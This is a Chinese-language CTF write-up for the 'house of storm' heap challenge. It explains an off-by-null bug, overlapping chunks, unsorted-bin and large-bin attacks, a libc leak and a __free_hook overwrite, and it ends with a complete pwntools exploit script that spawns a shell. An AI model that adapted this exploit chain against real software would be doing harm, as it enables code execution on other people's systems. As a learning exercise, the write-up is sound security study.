






house of strom的经典题目。



mallopt把fastbin给关了。

main函数在程序空挡区域开了映射，用来储存堆地址以及加密的随机数。



add函数会把申请的大小跟堆地址进行加密储存。



edit函数在往堆里面写入数据的时候最后12字节会强行写入HEAPSTORM_II，并且还有一个off-by-null的漏洞。这个也是整个程序唯一的漏洞。



delt函数在free之后会删除地址，所以没有uaf。



show函数会有一个验证过程。验证点是四个随机数最后两个。

题目很明显是需要我们去控制这个申请的新映射区域。但是题目由于关闭了fastbin，能用到的只有unsortedbin，smallbin，largebin。

看了一段时间，没看懂。还是看大佬的wp才明白。

这里想要去利用各种attack，就要实现uaf，也就是要把唯一的漏洞off-by-null的漏洞面进行扩大。那只能去想办法实现指针重叠。

从大佬那“偷”点图。



这里思路就是利用off-by-unll去修改size，并且伪造一个p头，让glibc管理器认为，chunk1释放的大小只有0x500，之后由于chunk2的p头也是符合要求的，所以只需要把chunk1给分割成三块，一块申请之后再释放，当free chunk2之后由于chunk2的in-use位标记为0，所以释放chunk2的时候会利用p头去寻找合并的堆块，此时chunk2的p头还是0x510，所以会向上找到分割出来的第一块，由于低版本不会去检查合并的size与p头的大小是否合法，并且无条件信任p头。于是就造成了中间一大块区域被再次释放。这样第二次申请出来的堆块就成功与之前分割的堆块重叠了。

之后在后面再弄一个大堆块直接的重叠就行了。这里要注意之前的非法合并堆块要先申请出来之后下面的堆块重叠完成之后再释放。

我这里没把图片放完具体可以查看这个文章

[]: https://bbs.kanxue.com/thread-225973-1.htm

之后就是想办法控制一个unsortedbin，一个largebin的堆块然后去伪造chunk。

之后利用unsorted attack去往储存随机数上方写入main_arena的地址，并且把伪造堆块地址并入unsortedbin的双链中。

之后就是想办法把伪造的堆块合法化。这个就要利用到largebin的两次写入了。

具体过程可以看/pwn好难啊/house of系列。

完成之后unsortedbin中就会有两个堆块，之后申请堆块就会是直接申请到伪造的堆块了。

之后就很简单了。更改随机数为0，注意这里更改完随机数之后之前的堆地址都不能用了，所以这里要重新申请堆地址进行泄露。之后就是正常泄露libc打hook就行了

```
from pwn import *

context.arch = 'amd64'
#r=remote('node5.buuoj.cn',28371)
r = process('./11')
libc = ELF('./libc-2.23.so')

def add(size):
    r.sendlineafter(b'Command: ',b'1')
    r.sendlineafter(b'Size: ',str(size).encode())
def edit(index,size,txt):
    r.sendlineafter(b'Command: ',b'2')
    r.sendlineafter(b'Index: ',str(index).encode())
    r.sendlineafter(b'Size: ',str(size).encode())
    r.sendafter(b'Content: ',txt)
def delt(index):
    r.sendlineafter(b'Command: ',b'3')
    r.sendlineafter(b'Index: ',str(index).encode())
def show(index):
    r.sendlineafter(b'Command: ',b'4')
    r.sendlineafter(b'Index: ',str(index).encode())
add(0x18)#0
add(0x508)#1
add(0x18)#2
edit(1,0x4f8,b'a'*0x4f0+p64(0x500))
add(0x18)#3
add(0x508)#4
add(0x18)#5
edit(4,0x4f8,b'a'*0x4f0+p64(0x500))
add(0x18)#6
delt(1)
edit(0,12,b'a'*12)
add(0x18)#1
add(0x4d8)#7
delt(1)
delt(2)
add(0x38)#1
add(0x4e8)#2
delt(4)
edit(3,12,b'a'*12)
add(0x18)#4
add(0x4d8)#8
delt(4)
delt(5)
add(0x48)#4
delt(2)
add(0x4e8)#2
delt(2)
storage = 0x13370000 + 0x800
fake_chunk = storage - 0x20
payload1 = p64(0)*2 + p64(0) + p64(0x4f1)
payload1 += p64(0) + p64(fake_chunk) 
edit(7,8*6,payload1)
payload2 = p64(0)*4 + p64(0) + p64(0x4e1) 
payload2 += p64(0) + p64(fake_chunk+8)    
payload2 += p64(0) + p64(fake_chunk-0x18-5)
edit(8,8*10,payload2)

add(0x48)
gdb.attach(r)
payload3 = p64(0)*2 + p64(0) + p64(0) + p64(0) + p64(0x13377331) + p64(storage)

edit(2,len(payload3),payload3)
payload4 = p64(0) + p64(0) + p64(0) + p64(0x13377331) + p64(storage) + p64(0x1000) + p64(storage-0x20+3) + p64(8)
edit(0,len(payload4),payload4)
show(1)
r.recvuntil(b']: ')
heap= u64(r.recv(6).ljust(8,b'\x00'))
print(hex(heap))
payload5 = p64(0) + p64(0) + p64(0) + p64(0x13377331) + p64(storage) + p64(0x1000) + p64(heap+0x10) + p64(8)
edit(0,len(payload5),payload5)
show(1)
r.recvuntil(b']: ')
libc_base= u64(r.recv(6).ljust(8,b'\x00'))- 88 - 0x3c4b20

free_hook = libc.sym['__free_hook']
print(hex(libc_base))
#
libc_system = libc_base + 0x3f480#libc.sym['system']
hook = libc_base + free_hook#0x39b788
onegadget = libc_base + 0x4526a
payload6 = p64(0) + p64(0) + p64(0) + p64(0x13377331) + p64(storage) + p64(0x1000) + p64(hook) + p64(0x8) #+ p64(storage+0x50) + p64(0x100) + b'/bin/sh\x00'
edit(0,len(payload6),payload6)
#
edit(1,8,p64(onegadget))

#r.sendline(b'3')
#r.recvuntil('Index: ')
#r.sendline(b'2')
r.interactive()
```

